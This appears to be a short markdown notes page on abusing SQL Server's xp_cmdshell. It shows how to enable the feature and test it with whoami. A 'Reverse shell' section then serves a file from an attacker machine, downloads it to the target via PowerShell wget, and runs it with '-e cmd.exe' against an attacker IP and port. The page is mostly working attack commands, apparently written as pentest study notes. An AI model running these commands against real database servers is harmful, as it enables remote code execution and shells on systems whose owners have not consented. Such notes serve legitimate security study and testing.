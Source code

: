```yaml
---
id: xp_cmdshell
aliases: []
tags:
  - Networking/Services/SQL/xp_cdmshell
links: "[[SQL]]"
---
```


# xp_cmdshell

[xp_cdmshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17)
allows the execution of Windows command shell commands directly from the SQL
Server environment.

<!-- Activation {{{-->
## Activation

**xp_cmdshell** is disabled by default

```sh
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

<!-- }}} -->

<!-- Usage {{{-->
## Usage

Check if xp_cmdshell is enabled

```sh
EXEC xp_cmdshell 'whoami';
```

<!-- }}} -->

<!-- Reverse shell {{{-->
## Reverse shell

Simple [Python HTTP server](https://docs.python.org/3/library/http.server.html)
to serve a file from the attacker machine

```sh
sudo python3 -m http.server 80
```

Acquire the file served by the attacker from the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; wget http:{ip_address}/{file_name} -outfile {file_name}"
```

Execute the acquired file on the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; .\{file_name} -e cmd.exe {attacker_ip} {attacker_port}"
```

<!-- }}} -->
